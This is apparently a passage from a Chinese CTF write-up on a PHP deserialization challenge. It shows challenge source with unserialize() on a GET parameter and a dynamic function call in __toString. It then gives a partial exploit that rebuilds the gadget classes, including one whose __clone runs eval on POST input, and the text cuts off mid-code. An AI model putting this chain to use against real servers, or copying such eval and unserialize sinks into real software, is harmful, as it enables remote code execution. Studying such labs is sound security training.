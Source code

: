 ```php

    public function __toString(){
        $ai = $this->Si;
        echo 'I W1ll remember you';
        return $ai();
    }
}



if(isset($_GET['No_Need.For.Love'])){
    @unserialize($_GET['No_Need.For.Love']);
}else{
    highlight_file(__FILE__);
}
```
:::

在`hybcx`类中的tostring方法里，存在一个可能的非预期，这里有一个动态函数调用，如果`$ai='phpinfo'`，那么就会成功调用`phpinfo()`，在phpinfo的回显中，可能会有flag，不过这里尝试没有发现非预期

```php
public function __toString(){
        $ai = $this->Si;
        echo 'I W1ll remember you';
        return $ai();
    }
```

exp

::: details
```php
<?php
class MyObject{
    public $NoLove="Do_You_Want_Fl4g?";
    public $Forgzy;
    public function __wakeup()
    {
        if($this->NoLove == "Do_You_Want_Fl4g?"){
            echo 'Love but not getting it!!';
        }
    }
    public function __invoke()
    {
        $this->Forgzy = clone new GaoZhouYue();
    }
}

class GaoZhouYue{
    public $Yuer;
    public $LastOne;
    public function __clone()
    {
        echo '最后一次了, 爱而不得, 未必就是遗憾~~';
        eval($_POST['y3y4']);
    }
}

class hybcx{
    public $JiuYue;
    public $Si;

    public function __call($fun1,$arg){
        $this->Si->JiuYue=$arg[0];
```